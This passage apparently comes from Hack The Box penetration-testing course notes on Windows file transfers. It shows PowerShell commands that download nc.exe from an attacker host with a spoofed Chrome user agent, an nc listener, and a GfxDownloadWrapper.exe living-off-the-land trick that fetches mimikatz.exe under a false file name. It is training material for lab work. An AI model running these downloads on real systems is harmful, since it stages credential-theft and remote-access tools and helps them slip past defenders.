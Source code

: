#### Listing out User Agents
```powershell-session
PS C:\htb>[Microsoft.PowerShell.Commands.PSUserAgent].GetProperties() | Select-Object Name,@{label="User Agent";Expression={[Microsoft.PowerShell.Commands.PSUserAgent]::$($_.Name)}} | fl
```

#### Request with Chrome User Agent
```powershell-session
PS C:\htb> $UserAgent = [Microsoft.PowerShell.Commands.PSUserAgent]::Chrome
PS C:\htb> Invoke-WebRequest http://10.10.10.32/nc.exe -UserAgent $UserAgent -OutFile "C:\Users\Public\nc.exe"
```

```shell-session
AhmaDb0x@htb[/htb]$ nc -lvnp 80
```

#### Transferring File with GfxDownloadWrapper.exe

LOLBIN is the Intel Graphics Driver for Windows 10 (GfxDownloadWrapper.exe), installed on some systems and contains functionality to download configuration files periodically. This download functionality can be invoked as follows:
```powershell-session
PS C:\htb> GfxDownloadWrapper.exe "http://10.10.10.132/mimikatz.exe" "C:\Temp\nc.exe"
```

it is worth checking the [LOLBAS](https://lolbas-project.github.io/) project to find a suitable "file download" binary that exists in your environment. Linux's equivalent is the [GTFOBins](https://gtfobins.github.io/) project and is definitely also worth checking out. As of the time of writing, the GTFOBins project provides useful information on nearly 40 commonly installed binaries that can be used to perform file transfers.

